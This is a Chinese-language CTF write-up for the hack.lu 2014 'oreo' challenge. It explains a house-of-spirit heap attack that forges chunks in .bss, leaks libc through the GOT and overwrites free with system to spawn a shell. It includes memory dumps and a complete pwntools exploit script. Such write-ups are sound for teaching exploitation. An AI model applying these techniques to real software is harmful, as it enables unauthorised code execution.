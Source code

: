 ```yaml
---
title: hack.lu ctf 2014 oreo
categories:
  - pwn
tags: null
published: true
---
```


# Introduction

学习 [house_of_spirit](https://github.com/shellphish/how2heap/blob/master/house_of_spirit.c)

**[oreo](https://github.com/ctfs/write-ups-2014/tree/master/hack-lu-ctf-2014/oreo)**: 
oreo: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.26, BuildID[sha1]=f591eececd05c63140b9d658578aea6c24450f8b, stripped

{% highlight bash %}
checksec oreo

    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)

{% endhighlight %}

程序有5个主要函数：

1）添加，分配固定大小的堆内存，输入 Rifle name 时有 0x19 字节的溢出。

2）打印，输出堆内存里的值。

3）删除，在后续的添加中当前的 chunk 地址会存放在新的 chunk 的末尾四个字节处，free 当前 chunk 后继续 free 当前 chunk 的末尾四个字节指向的地址。

4）写入，在指定的地址写入上限 0x80 字节长度的值，指定的地址存放在全局指针变量中。

5）输出添加次数和删除次数两个全局变量的值，还打印全局指针变量指向地址的值。

# Leak Libc

要触发漏洞需要足够的空间来伪造 chunk，而程序每个函数的可影响的栈空间大小都不足以伪造出两个相邻 chunk。在经过一番观察后发现程序的 bss 段可以用来伪造两个相邻 chunk，添加 0x41 次 rifle 使得添加次数全局变量的值为 0x41，伪造了第一个 chunk 头，再通过第4个函数写入下个 chunk 的 chunk size。

```
gdb-peda$ x/32xw 0x804a2a0
0x804a2a0:	0x00000000	0x00000041	0x0804a2c0	0x00000000	-> chunk1
0x804a2b0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a2c0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a2d0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a2e0:	0x00000000	0x00001234	0x0000000a	0x00000000	-> chunk2
0x804a2f0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a300:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a310:	0x00000000	0x00000000	0x00000000	0x00000000
```

而利用添加函数输入 rifle name 的值可以设定 chunk 的最后四个字节为伪造的 chunk 地址。

```
0x9b39410:	0x00000000	0x00000041	0x00003034	0x00000000
0x9b39420:	0x00000000	0x00000000	0x00000000	0x00000000
0x9b39430:	0x00000000	0x00000000	0x00000000	0x00000000
0x9b39440:	0x00000000	0x00000000	0x00000000	0x0804a2a8	-> fake chunk address
```

成功将其 free 后，在调用添加函数获得 fake chunk 的控制，进而改写全局变量指针的值从而实现任意地址写。

配合程序自身函数可以将 got 表中的值打印出来

```
payload = p32(0x804a288)
add("\n", payload+"\n")

payload = p32(sscanf_got)
lmsg(payload + "\n")

show()
```

# Exploit

既然可以写任意地址，那么写函数 got 表为 system 地址即可，[exp](https://github.com/0x3f97/pwn/blob/master/hack-lu-ctf-2014-oreo/exp.py) 如下：

```python
#!/usr/bin/env python

from pwn import *
import sys

context.log_level = "debug"

elf = "./oreo"

p = process(elf)

free_got = 0x804a238
puts_plt = 0x80484b0
sscanf_got = 0x804a258
free_off = 0x71470
system_off = 0x3ada0
bin_sh_off = 0x15b9ab
fgets_off = 0x5e150

def add(n, des):
    p.sendline("1")
    p.send(n)
    p.send(des)

def show():
    p.sendline("2")

def order():
    p.sendline("3")

def lmsg(s):
    p.sendline("4")
    p.send(s)

def status():
    p.sendline("5")


for i in range(0x40):
    add(str(i)+"\n", str(i)+"\n")

payload = p8(0)*0x1b
payload += p32(0x804a2a8)
add(payload+"\n", "40\n")

payload = p8(0)*0x24
payload += p32(0x1234)
lmsg(payload+"\n")

order()

payload = p32(0x804a288)
add("\n", payload+"\n")

#gdb.attach(p)
payload = p32(sscanf_got)
payload += p32(0)*6
payload += p32(0x41)
payload += p32(0x804a288)
lmsg(payload+"\n")

show()
p.recvuntil("Description: ")
libc_base = u32(p.recv(4).strip().ljust(4, "\x00"))-0x5c4c0
log.info("libc_base: " + hex(libc_base))

system_addr = libc_base + system_off
bin_sh_addr = libc_base + bin_sh_off
fgets_addr = libc_base + fgets_off

payload = p32(bin_sh_addr)
payload += p32(0)*6
payload += p32(0x41)
payload += p32(free_got)
lmsg(payload+"\n")

payload = p32(system_addr)
payload += p32(fgets_addr)
lmsg(payload+"\n")

#gdb.attach(p)
order()

p.interactive()
```